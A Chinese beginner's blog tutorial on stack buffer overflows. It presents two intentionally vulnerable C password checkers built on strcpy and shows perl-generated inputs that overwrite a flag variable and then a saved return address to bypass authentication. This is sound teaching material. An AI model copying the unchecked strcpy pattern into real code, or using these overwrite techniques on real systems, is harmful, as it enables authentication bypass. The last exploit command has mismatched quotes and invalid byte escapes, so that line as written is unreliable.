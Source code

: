 [Bug Hunter]关于stack overflow Lesson II
=======================================

### 回顾
&emsp;&emsp;上一篇我们已经简单了解了stackoverflow的简单原理，以及怎么利用stackoverflow去控制程序的逻辑，本节Lesson更加深入的探讨一下stackoverflow的进一步利用点。这一个系列是根据博主本人的学习进度写成，所以速度可能偏慢，因为我也有活要干，同时我也是个新手。


### 例子一
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
        int auth_flag = 0;
        char password_buffer[16];

        strcpy(password_buffer, password);

        if(strcmp(password_buffer, "brillig") == 0)
                auth_flag = 1;
        if(strcmp(password_buffer, "outgrabe") == 0)
                auth_flag = 1;

        return auth_flag;
}

int main(int argc, char *argv[]) {
        if(argc < 2) {
                printf("Usage: %s <password>\n", argv[0]);
                exit(0);
        }
        if(check_authentication(argv[1])) {
                printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
                printf("      Access Granted.\n");
                printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
        } else {
                printf("\nAccess Denied.\n");
   }
}
```
	
&emsp;&emsp;本例是一个简单的认证判断，如果输入参数是`brillig`或者`outgrabe`，那么输出`Access Granted.`。显然这里也有一个stackoverflow的bug，在`strcpy`函数这里。在Stack上，`auth_flag`先入栈，`password_buffer`后入栈，所以`auth_flag`的地址比`password_buffer`高，这样就可以覆盖`auth_flag`的值。`gcc example.c -o example -g`，生成可执行程序。然后`gdb -tui example`获取一些必要的信息如下。  
<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/variable_distance.png" /><br>  


&emsp;&emsp;算得两地址之差为28，所以我们只需要复写完这28个字节再多复写4个字节就可以了。先看正常情况，`./example $(perl -e "print 'A' x 28")`，结果如下：  

> Access Denied.  

&emsp;&emsp;再看看复写stack情况，`./example $(perl -e "print 'A' x 32")`，结果如下：  

> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>      Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  

&emsp;&emsp;虽然栈被写坏了，但是目的达成。  

### 例子二
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	char password_buffer[16];
	int auth_flag = 0;

	strcpy(password_buffer, password);
	
	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
```  
&emsp;&emsp;与例子一的唯一差别就是调换了`password_buffer`和`auth_flag`的位置，那么`auth_flag`的地址比`password_buffer`要低，这样就没法复写了，那么我们该怎么办呢？  
&emsp;&emsp;还记得Lesson I里我讲到的Stack的本质原理吗？一个函数调用的时候先是压栈，后`leave`弹栈，然后再`ret`返回，栈上其实保存着函数返回时的地址，这是地址会压入EIP/RIP，让我们直接`gdb`看一下就明白了。先`gcc example2.c -o example2 -g`，然后`gdb -tui example2 -q`。  

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/main_assembly.png" /><br>  
&emsp;&emsp;这里我们先注意一下`call   0x40063d <check_authentication>`之后会执行一个判断，就是调用`check_authentication`返回值的判断，我们跳过这个判断，直接执行`0x4006ef`的指令就可以输出`Access Granted`。那现在我们看看栈上保存的返回地址是多少，如下：  

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/ret_addr.png" /><br>  
&emsp;&emsp;返回地址是`0x4006eb`，也就是调用call之后的下一条指令，我们直接复写返回地址为`0x4006ef`，由于我用的是x86-64的机器，所以是little endian，所以地址得倒着写，执行`./example2 $(perl -e "print '\ef\06\40\00' x 3)`，结果如下： 
 
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
>       Access Granted.  
> -=-=-=-=-=-=-=-=-=-=-=-=-=-  
> Segmentation fault  


### 结语
&emsp;&emsp;本节提到的一点就是复写函数的返回地址，比复写变量的值更具有杀伤力，是不是呢？  
&emsp;&emsp;没点关注的点一波关注，谢谢！Have Fun！See You！
